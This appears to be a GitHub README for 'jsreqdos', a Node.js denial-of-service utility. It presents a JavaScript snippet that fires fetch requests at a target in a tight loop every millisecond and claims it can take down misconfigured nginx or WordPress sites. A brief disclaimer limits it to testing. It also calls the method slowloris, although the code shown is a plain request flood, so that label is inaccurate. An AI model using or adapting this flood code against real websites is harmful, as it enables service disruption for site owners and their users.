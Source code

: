 # jsreqdos
Slowloris DOS utility made in nodejs.

## Usage
This is made for testing purpose, and should not be used on foreign resources, as it may cause damage.

This uses slowloris type of attack to send thousands of requests per second.

This should also be taken in consideration by many public sites, as 5 lines of code are enough to take them down.
```javascript
worker = setInterval(()=>{
    for(let i =0;i<threads;i++){
        fetch(target).then(()=>{}).catch(()=>{}) //callback is not required but prevents many errors.
    }
},1)
```
Every incorrectly initiated nginx instance or wordpress website can be overloaded with this.
